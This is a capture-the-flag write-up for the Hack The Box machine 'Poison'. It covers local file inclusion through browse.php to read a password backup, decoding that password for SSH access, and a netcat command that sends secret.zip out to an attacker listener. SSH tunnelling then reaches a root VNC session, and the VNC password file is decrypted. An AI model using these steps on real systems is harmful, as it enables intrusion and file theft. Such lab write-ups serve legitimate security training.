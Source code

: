 Machine:https://app.hackthebox.com/machines/132
IP:10.10.10.84

# Enumeration

Port 80:

/browse.php?file=phpinfo.php

`X-Powered-By 	PHP/5.6.32`

/browse.php?file=listfiles.php

```
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

/browse.php?file=pwdbackup.txt

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=
```

Decode

`Charix!2#4%6&8(0`

Login as Charix through SSH

# Exploitation

user.txt eaacdfb2d141b72a589233063604209c

# Post-Exploitation

/home/charix has secret.zip

Transfer to our machine

Victim:

`nc -w 3 10.10.16.12 9001 < secret.zip`

Attacker:

```
nc -lnvp 9001 > output
mv output output.zip
```

Unzip with the SSH password and we got a file `secret`

`unzip output.zip`

But we don't know what this is for

Back on target, we see that VNC is running as root which using password file from /root and connect locally

`root   529   0.0  0.9  23620  8868 v0- I    16:19    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1`

Checking vncviwer options

```
vncviewer -h

-passwd <PASSWD-FILENAME> (standard VNC authentication)
```

secret might be used with this options, but VNC only hosts locally, so we need tunneling through SSH or proxychains

`tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
`

SSH Tunneling

We tunnel port 5901 on target machine to our local port 5901

`ssh charix@10.10.10.84 -L 5901:localhost:5901`

Connect VNC

`vncviewer 127.0.0.1:5901 -passwd secret`

root.txt 716d04b188419cf2bb99d891272361f5

# Beyond Root

`.vnc/passwd` that root user use to connect to VNC by specify `rfbauth /root/.vnc/passwd` in the target machine is same as the one we unzip.

Decode VNC password

https://github.com/trinitronx/vncpasswd.py

```
python2 vncpasswd.py -d -f ~/htb_lab/poison/www/secret

Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```
![image](https://github.com/Leng-Phirun/OSCP_Prep_TJNull/assets/100512862/4e6a9c86-9c36-4290-be16-2e6358f2361e)

